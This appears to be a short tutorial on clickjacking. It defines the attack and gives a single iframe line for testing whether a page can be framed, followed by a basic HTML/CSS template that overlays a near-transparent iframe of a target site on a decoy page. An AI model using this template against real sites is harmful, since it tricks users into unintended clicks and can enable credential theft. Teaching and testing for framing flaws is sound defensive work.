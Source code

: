 **Clickjacking** is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. 

So, the attacker creates their own webpage, which they place with very low opacity, and embeds the victim page using an iframe (HTML tag). This way, the victim user thinks they are accessing the legitimate page. The attacker can add different layers over the supposed login page to hijack credentials. To quickly test if this attack could be applied, one just needs to attempt to embed the victim page in an iframe.

```bash
<iframe id="target_website" src="https://vulnerable-website.com">
```
# How to construct a basic clickjacking attack
Clickjacking attacks use CSS to create and manipulate layers. The attacker incorporates the target website as an iframe layer overlaid on the decoy website. An example using the style tag and parameters is as follows:
```bash
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```